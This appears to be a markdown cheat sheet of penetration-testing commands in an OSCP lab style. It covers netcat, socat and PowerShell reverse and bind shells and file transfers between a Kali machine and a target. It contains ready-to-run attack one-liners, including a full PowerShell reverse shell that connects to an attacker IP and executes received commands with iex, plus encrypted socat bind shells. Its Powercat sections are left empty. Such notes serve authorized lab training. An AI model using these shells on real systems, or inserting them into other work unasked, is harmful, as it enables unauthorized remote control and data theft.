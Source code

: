## Netcat
*These commands assume that the `nc` or `nc.exe` binary is installed on both Kali and target machines*

### Netcat Reverse Shell
1. Listen on Kali machine: 
```bash
nc -nvlp $PORT
```

2. Connect from target machine: 
```bash
nc -nv $KALI_IP $PORT
```

### Netcat File Transfers
1. Listen for file on target machine:
```bash
nc -nvlp $PORT > $FILENAME
```

2. Send file from Kali machine:
```bash
nc -nv $TARGET_IP $PORT /path/to/file
```

## Socat
*These commands assume that the `socat` or `socat.exe` binary is installed on both Kali and target machines*
### Socat File Transfers
1. Set Listener with file on Kali Machine:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$FILENAME
```

2. Connect to Kali machine from target machine to download file:
```bash
socat TCP:$IP:$PORT file:$FILENAME,create
```

### Socat Reverse Shells
1. Set listener on target machine (**Linux**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash
```
**OR** 

Set listener on target machine (**Windows**)
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes
```

3. Connect to listener from Kali machine:
```bash
socat TCP4:$TARGET_IP:$PORT EXEC:SHELL

## SHELL can be /bin/bash, /bin/zsh, or cmd?
```

### Socat Encrypted Bind Shells
1. Create encryption certificate and private key on Kali machine:
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```
2. Create `.pem` file on Kali machine:
```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```
3. Create shell on target machine (**Windows**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes
```
**OR** 

Create shell on target machine (**Linux**):
```bash
socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash
```

4. Connect to target machine:
```bash
socat - OPENSSL:$TARGET_IP:$PORT,verify=0
```

## Powershell

### Powershell File Transfers
Transfer file from **target** to **Kali** machine: 

1. Setup webserver on Kali machine:
```bash
python3 -m http.server 80
```

2. Grab download from target:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```
*NOTE: Change the `http://10.11.0.4/wget.exe` parameter with desired IP address of the **Kali machine** and the destination parameter `C:\Users\offsec\Desktop\wget.exe` with desired destination*


### Powershell Reverse Shells
Reverse Shell from **target** to **Kali** machine:
1. Setup listener on Kali Machine: 
```bash
sudo nc -nvlp $PORT
```

2. Run PowerShell code on target machine:
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
*NOTE: Change the `10.11.0.4` and `443` parameters with desired IP address and port of the **Kali machine** and **listening port***

### PowerShell Bind Shells
1. Setup powershell listener on target on port **443**. Feel free to change port

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```
2. Connect to target machine from Kali machine:
```bash
nc -nv $TARGET_IP $PORT
```
### Powercat installation
Install `powercat` on Kali machine:
```bash
sudo apt install powercat
```
Powercat is located in `usr/share/windows-resources/powercat`

Transfer `powercat` to target machine using methods found [here]()

## Powercat File Transfers
```bash

```

### Powercat Bind Shells
Import `powercat` in powershell:
```powershell
import-module .\powercat.ps1
```

### Powercat Reverse Shells

### Powercat 
